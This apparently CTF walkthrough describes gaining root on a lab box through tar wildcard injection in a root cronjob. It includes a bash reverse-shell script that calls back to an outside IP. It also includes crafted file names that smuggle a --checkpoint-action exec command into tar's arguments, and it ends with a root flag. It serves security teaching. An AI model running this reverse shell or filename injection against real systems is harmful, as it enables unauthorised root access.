 If we use linpeas again, we can notice this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250428152151.png)

```
*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

We got a cronjob which runs each 2 minutes, visualizing the format of this, we can notice it is vulnerable to `wildcard injection`, let's do the following in order to get a root shell:

1. Create a `shell.sh` file inside of `/home/andre/backup`:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.6.34.159/9001 0>&1'
```

2. Craft the malicious `filenames` to get RCE:

```
echo "" > "--checkpoint=1"       
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod +x shell.sh
```

* `--checkpoint=1`: Forces `tar` to trigger a checkpoint
* `--checkpoint-action=exec=...`: Executes `shell.sh` when the checkpoint is reached.

3. Start our listener and wait for the shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250428152829.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250428152834.png)

There we go, we got root, let's read our final flag and end the CTF:

```
root@cmess:/home/andre/backup# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250428152914.png)
